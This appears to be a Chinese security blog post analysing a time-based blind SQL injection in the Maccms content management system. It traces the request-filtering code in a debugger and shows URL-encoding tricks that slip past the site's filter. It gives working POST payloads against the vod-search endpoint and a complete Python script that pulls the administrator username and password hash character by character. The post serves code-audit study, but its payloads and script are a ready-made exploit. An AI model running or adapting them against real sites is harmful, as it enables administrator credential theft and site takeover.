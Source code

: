 ```yaml
---
title: 动态调试|Maccms SQL 注入分析(附注入盲注脚本)
date: 2018-08-26 15:49:02
tags: [Maccms,SQL注入,动态调试,代码审计]
categories: 
- 代码审计
---
```

# 0x01 前言
已经有一周没发表文章了，一个朋友叫我研究maccms的代码审计，碰到这个注入的漏洞挺有趣的，就在此写一篇分析文。
# 0x02 环境
Web： phpstudy
System： Windows 10 X64
Browser： Firefox Quantum
Python version ： 2.7
Tools： JetBrains PhpStorm 2018.1.6 x64、Seay代码审计工具

搭建这个程序也挺简单的，也是一步到位。

# 0x03 漏洞复现
1. 首先在程序的后台添加一条数据
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/1.png)
2. 执行我们的payload,可以看到网站跳转延迟了3s以上。
url:`http://sb.com/index.php?m=vod-search`
post:``wd=))||if((select%0bascii(length((select(m_name)\`\`from(mac_manager))))=53),(\`sleep\`(3)),0)#%25%35%63``

![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/2.png)
3. 因为是盲注所以注入出管理员的账号密码在下文分析。

# 0x04 SQL执行过程分析
1. 先弄清楚sql是如何执行的一个过程，然后再去分析怎么会造成SQL注入的一个过程，这样对学习代码审计也是一个好处。
因为是动态分析，不会的安装调试环境的请到这篇文章按步骤完成安装https://getpass.cn/2018/04/10/Breakpoint%20debugging%20with%20phpstorm+xdebug/
2. phpstorm打开这个选项，意思就是断在当前脚本文件的第一行，我就不下断点了，跟着它执行的过程走一遍。
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/4.png)
3. 我们先随便输入一点数据
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/3.png)
访问后会断在index.php的第一行
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/5.png)
4. F8往下走，走到第14行F7跟进去。
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/6.png)
然后F8一直往下走，可以看到拦截的规则
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/8.png)
走到POST的过滤这里F7进去
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/7.png)
`arr_foreach`函数检查传过来的值是否是数组，不是数组就返回原数据，然后用`urldecode`函数URL解码。
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/9.png)
最后分别对传过来的`wd`和`test`两个值进行匹配，如果存在拦截规则里面的字符就跳转到错误信息。
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/10.png)
比如你输入`wd=/**/`就会被拦截
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/11.png)
因为`/**/`存在拦截的正则表达式里面。
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/12.png)
5. 走出来会到`$m = be('get','m');`这里，这里只是对`m`传过来的`vod-search`进行`addslashes`函数的过滤
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/13.png)
6. 我怕文章过长，一些不必要的代码自己去细读一遍就行了，F8一直往下周，走到37行F7进去，因为我们传过来的的参数是`vod`，所以会包含`vod.php`文件并执行。
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/14.png)
7. 因为我们传参是`search`所以会走到这里，我们可以F7进去看执行的过程。
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/15.png)
在这里会经过`urldecode`函数的解码，一直循环到不能解码为止，然后经过刚才的`StopAttack`方法的过滤 
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/16.png)
最后到`htmlEncode`方法的替换
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/17.png)
8. 跳出到`vod.php`文件后F8走到这里，F7进去看SQL执行的过程。
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/18.png)
一直走到`markname`的值是`vod`
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/19.png)
然后不用管F8继续往下走，走到这里再F7进去
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/20.png)
可以看到SQL执行是到这里，下面是执行的语句
`SELECT count(*) FROM {pre}vod WHERE 1=1  AND d_hide=0 AND d_type>0  and d_type not in(0) and d_usergroup in(0)  AND ( instr(d_name,'test')>0 or instr(d_subname,'test')>0 or instr(d_starring,'test')>0 ) `
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/21.png)
# 0x05 漏洞分析

上面分析了SQL执行过程，下面分析这个是如何构成SQL注入的。

1. 刚才这里跳过了，文件位置：`inc/common/template.php`,可以看到传过来的`P["wd"]`值赋值给了`$lp['wd']`。
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/22.png)
2. 再往下看753~755行，可以看到我们的值是放在这里面，然后送去`GetOne`执行的。
```php
if (!empty($lp['wd'])){
		        	$where .= ' AND ( instr(d_name,\''.$lp['wd'].'\')>0 or instr(d_subname,\''.$lp['wd'].'\')>0 or instr(d_starring,\''.$lp['wd'].'\')>0 ) ';
		        }
```
3. 构造的语句,只有中间才是执行的语句，前一句是为了闭合单引号，后面是注释。如果这里不清楚的可以用MySQL监控的软件去一步一步弄清楚。
```
SELECT count(*) FROM mac_vod WHERE 1=1  AND d_hide=0 AND d_type>0  and d_type not in(0) and d_usergroup in(0)  AND
 ( instr(d_name,'))||if((select ascii(length((select(m_name) from(mac_manager))))=53),(`sleep`(3)),0)#\')>0 or instr(d_subname,'))
 ||if((select ascii(length((select(m_name) from(mac_manager))))=53),(`sleep`(3)),0)
 #\')>0 or instr(d_starring,'))||if((select ascii(length((select(m_name) from(mac_manager))))=53),(`sleep`(5)),0)#\')>0 )
```
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/23.png)
4. 但是如果直接放语句上去会被检测到危险字符
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/24.png)
它主要对我们这里的空格连接处匹配到了
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/25.png)
那么我们可以用别名as 	&lsquo;	&lsquo;去代替，也可以省略as直接用	&lsquo;	&lsquo;，别名的用法在文章尾部的参考有给出。
5. 我们再执行，用Seay的代码审计工具的Mysql监控软件查看，我们的空格和后面的`\`被转义了。
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/26.png)
还记得我们`chkSql`方法吗？先是执行`urldecode`解码，然后`StopAttack`匹配，最后`htmlEncode`编码，最后`Be`方法那里	还有一个`addslashes`函数过滤，所以会导致后面的`\`转义成`\\`。`htmlEncode`又会对前面的空格转义成`&nbsp;`。
```php
function chkSql($s)
{
	global $getfilter;
	if(empty($s)){
		return "";
	}
	$d=$s;
	while(true){
		$s = urldecode($d);
		if($s==$d){
			break;
		}
		$d = $s;
	}
	StopAttack(1,$s,$getfilter);
	return htmlEncode($s);
}
```
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/27.png)
6. 这里我们可以利用URL编码绕过`htmlEncode`，具体可以看HTML URL编码表`%0c` `%0b`等都可以，后面的`\`可以用URL编码绕过`%5c`或者双编码`%25%35%63`
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/28.png)
7. 那么我们构造成的payload就是下面的，功能是查询管理员账号字段的长度
``wd=))||if((select%0cascii(length((select(m_name)``from(mac_manager))))=53),(`sleep`(3)),0)#%5c``

# 0x06 编写盲注脚本
当然盲注一般都不会手动去，SQLMAP有时候遇到特殊的也是要自己编写注入的脚本，具体代码的意思我就不解读了，自己可以结合Python和MySQL的知识理解。
![](https://pic-1252849007.cos.ap-guangzhou.myqcloud.com/maccms/29.png)
```python
#! /usr/bin/python
# -*- coding:utf-8 -*-
#author:F0rmat
import requests
import time
dict = "1234567890qwertyuiopasdfghjklzxcvbnm_{}QWERTYUIOPASDFGHJKLZXCVBNM,@.?"
UserName=''
UserPass=''
UserName_length=0
url='http://sb.com/'
url = url + r'/index.php?m=vod-search'
def main():
    global UserName
    global url
    for i in range(30):
        startTime = time.time()
        sql = "))||if((select%0bascii(length((select(m_name)``from(mac_manager))))={}),(`sleep`(3)),0)#%25%35%63".format(
            ord(str(i)))
        data = {'wd': sql}
        response = requests.post(url, data=data)  # 发送请求
        if time.time() - startTime > 3:
            UserName_length = i
            print UserName_length
            break
    for num in range(1, UserName_length + 1):
        for i in dict:  # 遍历取出字符
            startTime = time.time()
            sql = "))||if((select%0bascii(substr((select(m_name)``from(mac_manager)),{},1))={}),(`sleep`(3)),0)#%25%35%63".format(
                str(num), ord(i))
            data = {'wd': sql}
            response = requests.post(url, data=data)  # 发送请求
            print data
            if time.time() - startTime > 3:
                UserName += i
                break
    global UserPass
    for num in range(32):
        for i in dict:  # 遍历取出字符
            startTime = time.time()
            sql = "))||if((select%0bascii(substr((select(m_password)``from(mac_manager)),{},1))={}),(`sleep`(3)),0)#%25%35%63".format(
                str(num), ord(i))
            data = {'wd': sql}
            response = requests.post(url, data=data)  # 发送请求
            print data
            if time.time() - startTime > 3:
                UserPass += i
                break
    print 'username:'+UserName,'password:'+UserPass
if __name__ == '__main__':
    main()
```
# 0x07 总结
有时候学习代码审计，不能因为部分的代码没能读懂就不去理会，其实你读的代码越多，做代码审计也越轻松。
# 0x08 参考
程序下载：https://www.lanzous.com/i1qm24f
http://www.freebuf.com/column/161528.html
http://www.mysqltutorial.org/mysql-alias/
http://www.w3school.com.cn/tags/html_ref_urlencode.html
https://github.com/F0r3at/Python-Tools/blob/master/maccms_sql.py